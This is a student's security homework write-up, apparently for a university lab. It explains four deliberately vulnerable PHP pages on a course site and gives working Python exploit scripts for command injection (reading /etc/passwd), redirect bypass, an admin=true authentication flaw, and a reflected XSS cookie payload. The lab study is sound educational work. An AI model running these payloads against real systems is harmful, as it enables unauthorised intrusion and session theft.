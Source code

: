 # TIC4304 Homework 3
- Name: Ke Yule
- Student Number: A0211495H E0493826
- Scripts Can be Found at: https://github.com/keyule/4304-hw3

*View the markdown version for better formatting at:*   
*https://github.com/keyule/4304-hw3/blob/main/report.md* 

## Case 1

**Bug Category: Remote Code Execution**

**The logic of case01.php is:**
1. Line 14: checks if cmd_url is set
2. Line 16: sets cmd_url to a virable called cmd
3. Line 19: runs shell_exec(cmd)
4. Line 20: Outputs the results

**Exploit:**  
As we can see there is no sanitization of the cmd_url sent over a post request. We can just send any command we want and it will get executed. 

**Script: case01.py**
```python
import requests

url = 'http://www.wsb.com/Homework3/case01.php'

payload = {'cmd_url': 'cat /etc/passwd'}

response = requests.post(url, data=payload)

pre_start = response.text.find('<pre>')
pre_end = response.text.find('</pre>')

pre_text = response.text[pre_start+len('<pre>'):pre_end]

print(pre_text)
```

## Case 2

**Bug Category: Execution after Redirect**

**The logic of case02.php is:**
1. it redirects you to case02-1.php using redirection header 302

**Exploit:**  
We can grab the flag by sending a get request and setting `allow_redirects = false`. This way the redirect is prevented and it prints the flag. 

**Script: case02.py**
```python
import requests

url = 'http://www.wsb.com/Homework3/case02.php'
response = requests.get(url, allow_redirects=False)

flag = response.text.split('The flag is ')[1].split('</div>')[0]
print(flag)
```

## Case 3

**Bug Category: Login Authentication Flaw**

**The logic of protected_page.php is:**
1. Line 23: Check if `get[admin] = true`
2. So if we send a get request with the admin variable set to true, it shows the flag. 


**Exploit:**  
We can grab the flag by sending a get request and setting `admin=true`. 
The script for this is long because we first have to create an account at register.php, then login using process_login, before finally grabbing the flag. 

**Script: case03.py**
```python
import requests
import hashlib
import re
reg_url = 'http://www.wsb.com/Homework3/case03/register.php'
login_url = 'http://www.wsb.com/Homework3/case03/includes/process_login.php'
protected_url = 'https://www.wsb.com/Homework3/case03/protected_page.php?admin=true'

username = 'test123456'
email = 'test123456@1.com'
password = 'Password123'

hashed_password = hashlib.sha512(password.encode('utf-8')).hexdigest()

reg_payload = {
    'username': username,
    'email': email,
    'password':'',
    'confirmpwd':'',
    'p': hashed_password # the hashed password field
}

reg_response = requests.post(reg_url, data=reg_payload)

payload = {
    'email': email,
    'password': '',
    'p': hashed_password  # the hashed password field
}

session = requests.Session()
session.verify = False
response = session.post(login_url, data=payload)
session_id = session.cookies.get('sec_session_id23')

if session_id:
    # make request to protected page with session ID included in cookie
    cookies = {'sec_session_id23': session_id}
    response = session.get(protected_url, cookies=cookies)
    #print(response.text)
else:
    print("Login failed.")


flag = re.search('The flag is ([a-zA-Z0-9]+)', response.text).group(1)

print('The flag is: ' + flag)

```


## Case 4

**Bug Category: Reflected XSS**

**The logic of case04.php is:**
1. Line 16: Takes the name variable from the get request
2. Line 18: Check if it has `<script>` in it and replaces it with nothing
3. Line 21: prints it

**Exploit:**  
As the php page only checks for `<script>` we can still inject javacscript into it by using a payload without script tags. 

**Script: case04.py**
```python
import webbrowser

url = 'http://www.wsb.com/Homework3/case04.php?name=<img src=1 href=1 onerror="javascript:alert(document.cookie)"></img>'
new = 2
webbrowser.open(url, new=new)

```
